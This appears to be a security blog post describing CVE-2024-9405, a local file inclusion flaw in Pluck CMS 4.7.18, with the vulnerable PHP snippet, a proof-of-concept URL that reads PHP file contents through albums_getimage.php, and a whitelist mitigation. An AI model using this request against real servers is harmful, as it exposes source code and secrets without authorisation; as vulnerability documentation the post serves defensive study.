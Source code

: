 ```yaml
---
layout: post
title: "Local File Inclusion CVE 2024-9405"
categories: [Notes, Web Security]
tags: [web-security, cve]
slug: "cve-2024-9405" #url/posts/pageurl
image: /assets/img/blog/notes/web-security/cve20249405/logo.jpg  # Optional - add an image for the post
published: true  # Set to false if you want it unpublished
---
```


# 2024-9405

---

> Local file inclusion (LFI) is a vulnerability in web applications that allows attackers to access and execute files on a web server.
> 

> Pluck CMS is a free, open-source, flat-file content management system (CMS) written in PHP.
> 
- **CVE-ID**: CVE-2024-9405
- **Vulnerability Type**: Local File Inclusion (LFI) (Unauthenticated)
- **Affected Product**: Pluck CMS v4.7.18
- **Affected Component**: `/data/modules/albums/albums_getimage.php=*`
- **Attack Type**: Remote
- **Impact**:
    - Attacker can extract sensitive information from files in the **same directory** or **immediate subdirectories**.
    - **Recursive directories (deeply nested folders) are not affected**.
- **Attack Vectors**: Not specified

---

Review code of the file **`albums_getimage.php`**

```php
if (file_exists('../../settings/modules/albums/".$image)) { 
    header('Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0'); 
    header('Expires: Thu, 19 Nov 1981 08:52:00 GMT'); 
    header('Pragma: no-cache'); 
    header('Content-Type: image/jpeg'); 
    echo readfile('../../settings/modules/albums/'.$image); 
} 
```

It makes an “`*echo readfile*`” without filtering by type of image files, allowing a malicious actor to read the contents of files with server language (PHP).

# Exploitation

```python
url/admin.php?module=albums
```

![image.png](/assets/img/blog/notes/web-security/cve20249405/image.png)

You cannot read content of poc.php directly using below url:

```python
url/data/settings/modules/albums/poc.php
```

![image.png](/assets/img/blog/notes/web-security/cve20249405/image%201.png)

After changing above url to this you can read content of php file:

```python
url/data/modules/albums/albums_getimage.php?image=poc.php
```

![image.png](/assets/img/blog/notes/web-security/cve20249405/image%202.png)

# Mitigation

Implement in the code some function that checks the type of files, using a white list for allowed image extensions (eg .png | .gif |jpeg…), thus preventing a malicious user from uploading other files that are not expected by the application.
